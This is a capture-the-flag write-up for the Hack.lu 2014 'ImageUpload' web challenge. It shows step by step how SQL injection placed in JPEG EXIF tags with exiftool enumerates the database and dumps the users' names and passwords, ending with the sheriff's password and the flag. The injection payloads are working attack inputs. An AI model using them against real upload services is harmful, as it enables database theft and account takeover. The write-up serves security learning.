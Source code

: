 # Hack.lu CTF 2014: ImageUpload

**Category:** Web
**Points:** 200
**Author:** SLAZ
**Description:**

> In the Wild Wild Web, there are really bad guys. The sheriff doesn’t know them all. Therefore, he needs your help.
Upload pictures of criminals to this [site](https://wildwildweb.fluxfingers.net:1421/) and help the sheriff to arrest them.
You can make this Wild Wild Web much less wild!!!
>
> Pictures will be deleted on regular basis!
>
> **Hint:** Bruteforce is not necessary to solve the challenge!!! Please don’t do this.

## Write-up

As stated in the challenge description, the site at <https://wildwildweb.fluxfingers.net:1421/> allows image uploads. There is also a login form, but since we don’t have an account, let’s ignore that for now.

Some trial and error reveals that only JPEGs are accepted. Any image you upload gets some effects applied to it to make it look like a Wild Western ‘Wanted’ poster:

![](poster.jpg)

The text on the image “Dr. Evil” reflects the original image’s `Artist` EXIF tag. Below the image, the original `Width`, `Height`, `Author` (i.e. `Artist`), `Manufacturer` (i.e. `Make`), and `Model` EXIF tags are shown. Let’s inject some interesting values there:

```bash
$ exiftool -Make="foo', (SELECT VERSION())) -- -" image.jpg
```

Uploading this image lists the `Manufacturer` as `foo`, and uses the result of `SELECT VERSION()` as the next value in the query, i.e. as if it was the value for `Model`. Yep, the app is vulnerable to SQL injection through EXIF data.

Let’s find out which tables exist in the current database:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -" image.jpg
```

The result is `brute,pictures,users`. Hmm, what are the names of the columns in the `users` table?

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users')) -- -" image.jpg
```

Apparently, `id,name,password`. Those `name` and `password` columns sound interesting – let’s see what values are in there:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(CONCAT(name, ':', password)) FROM users)) -- -" image.jpg
```

The result: `sheriff:AO7eikkOCucCFJOyyaaQ,deputy:testpw`.

Logging in using `sheriff` as the username and `AO7eikkOCucCFJOyyaaQ` as the password reveals the flag `flag{1_5h07_7h3_5h3r1ff}`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-web-200-imageupload/>
* <http://www.mrt-prodz.com/blog/view/2014/10/hacklu-ctf-2014---imageupload-200pts-writeup/>
* [Writeup by captchaflag](http://www.captchaflag.com/blog/2014/10/24/hack-dot-lu-2014-imageupload/)
